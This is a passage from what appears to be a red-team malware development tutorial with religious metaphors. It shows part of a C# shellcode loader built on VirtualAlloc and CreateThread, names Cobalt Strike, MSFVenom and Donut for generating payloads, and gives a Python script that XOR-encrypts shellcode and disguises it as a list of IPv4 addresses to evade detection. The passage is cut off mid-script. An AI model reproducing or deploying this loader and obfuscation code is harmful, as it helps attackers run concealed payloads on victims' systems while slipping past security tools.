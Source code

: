 ```
            catch (Exception ex)
            {
                MessageBox.Show($"Execution Error: {ex.Message}", "DEBUG");
            }
        }

        // Import Windows API functions
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```

If this works, this is your first sign that **the system has accepted your presence**. 

---

## V. Shellcode Generation and Obfuscation

After injection is proven, shift to the real payload.

**Shellcode generation tools:**

- Cobalt Strike  
- MSFVenom  
- Donut

**Encoding Techniques:**

- XOR (with static or rolling key)  
- IPv4 encoding (e.g., 192.168.10.32 format)  
- Base64 or zlib compression

This is **the Spirit at work** — your code remains unseen, but present, waiting for the appointed moment. For this particular discussion, the team developed a python script using some techniques picked up from [Malware Development Academy](https://maldevacademy.com/), where raw shallcode (```.bin```) is converted to IPv4 addresses. In addition, the team also modified the output by encrypting the shellcode with an XOR Key. All-in-all this creates an shellcode that looks like a list of IPv4 addresses in a ```.txt``` file.

```
import struct

def xor_encrypt(data, key):
    return bytearray(b ^ key for b in data)

def shellcode_to_ip_list(input_file, output_file, xor_key=0x55):
    try:
        with open(input_file, "rb") as f:
            shellcode = bytearray(f.read())

        # XOR encrypt the shellcode
        encrypted_shellcode = xor_encrypt(shellcode, xor_key)

        # Convert to fake IPs
        ip_list = [f"{b[0]}.{b[1]}.{b[2]}.{b[3]}" for b in struct.iter_unpack("BBBB", encrypted_shellcode.ljust((len(encrypted_shellcode) + 3) & ~3, b"\x00"))]

        with open(output_file, "w") as f:
            f.write("\n".join(ip_list))

```